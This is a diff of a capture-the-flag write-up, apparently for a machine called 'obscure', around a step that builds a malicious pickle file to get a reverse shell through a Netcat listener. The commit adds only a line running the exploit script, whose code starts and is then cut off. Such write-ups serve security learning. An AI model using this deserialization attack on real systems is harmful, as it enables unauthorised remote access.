

Before and after one commit to l0n3m4n/Writeups, a Markdown page: medium/obscure/obscure.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/medium/obscure/obscure.md
+++ b/medium/obscure/obscure.md
@@ -308,6 +308,9 @@ On some target systems, /dev/tcp is either disabled or Bash lacks support for it
 
 The script will generate a malicious .pickle file. Once created, upload the file and click on "Reverse Database Anonymization" while your Netcat listener is active.
 > python2.7
+
+> python2.7 exploit.py
+
 ```py
 import cPickle
 import base64
````
